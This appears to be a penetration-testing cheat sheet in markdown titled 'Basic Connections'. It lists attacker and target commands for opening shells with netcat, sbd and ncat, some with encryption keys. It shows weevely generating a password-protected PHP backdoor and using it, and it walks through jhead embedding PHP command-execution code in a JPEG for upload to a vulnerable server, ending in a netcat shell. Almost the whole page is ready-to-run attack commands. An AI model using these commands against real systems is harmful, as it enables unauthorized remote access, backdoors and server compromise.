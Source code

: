 ## Basic Connections

### Linux

#### Netcat

```bash
# Listen from Attacker
nc -lvnp 4444
# Connect from Target
nc <IP> 4444 /bin/bash
```

#### Sbd

```bash
# Listen from Attacker
sbd -lvnp 4444
sbd -lvnp 4444 -k BlueTrumpet  # Use an encryption key
# Connect from Target
sbd <IP> 4444 /bin/bash
sbd <IP> 4444 -e /bin/bash -k BlueTrumpet  # Connect using encryption key
```

#### Ncat

```bash
# Listen from Attacker
ncat -lvnp 4444 --ssl  # Listen with secure connection
# Connect from Target
ncat <IP> 4444 -e /bin/bash --ssl  # Connect to secure connection
```

#### Weevely

[https://github.com/epinna/weevely3](https://github.com/epinna/weevely3)

```bash
weevely generate bedbug /root/wish.php  # Generate backdoor with password 'bedbug'
weevely http://<IP>/wish.php bedbug  # Uses backdoor to get a shell
```

#### Jhead

[https://www.sentex.ca/\~mwandel/jhead/](https://www.sentex.ca/\~mwandel/jhead/)

```bash
mkdir jhead
Download & install jhead
# Turn nsa.jpg into a file that can run commands
jhead -purejpg nsa.jpg  # Sanitize the nsa.jpg image and clear its metadata
jhead -ce nsa.jpg  # Add our exploit code
cp nsa.jpg nsa.php.jpg  # Rename the file to have the php extension so that we get the PHP code executing
# Upload to vulnerable server
# Test exploit: http://<IP>/nsa.php.jpg?cmd=ls
# Get shell: http://<IP>/nsa.php.jpg?cmd=nc -lvnp 4444 -e /bin/bash
#From Kali: nc <IP> 4444
```
